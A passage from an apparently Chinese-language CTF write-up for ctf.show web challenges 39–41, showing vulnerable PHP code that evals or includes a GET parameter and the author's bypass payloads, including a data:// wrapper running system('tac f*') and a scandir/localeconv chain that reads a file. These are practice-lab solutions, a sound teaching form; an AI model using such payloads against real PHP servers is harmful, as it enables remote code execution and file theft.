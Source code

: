 ```
    }
        
}else{
    highlight_file(__FILE__);
}
```

收到一个名为c的GET请求，然后如果里面没有flag，那就给它后面加个.php包含它,其实如果结尾闭合了可以不管这个尾巴。

payload:

?c=data://text/plain,<?=system("tac%20f*");?>



### web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

搁这全武行呢？过滤了数字，~，`，@，#，$，%，^，&，*，()，-，=，+，{}，[]……

个人评价是：?c=echo%20highlight_file(next(array_reverse(scandir(pos(localeconv())))));

什么嘛，那是中文符号，吓我一跳。



### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
```